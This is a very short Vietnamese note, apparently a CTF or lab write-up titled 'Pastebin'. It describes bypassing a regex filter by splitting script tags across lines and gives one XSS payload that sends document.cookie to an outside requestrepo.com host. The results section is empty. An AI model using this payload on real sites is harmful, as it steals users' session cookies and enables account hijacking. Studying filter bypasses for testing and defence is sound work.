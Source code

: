 # Pastebin

Idea: Bypass regex với multiline

Payload:

```
<script
>window.location='http://r4ptii2v.requestrepo.com?'+document.cookie</script
>
```

Kết quả:

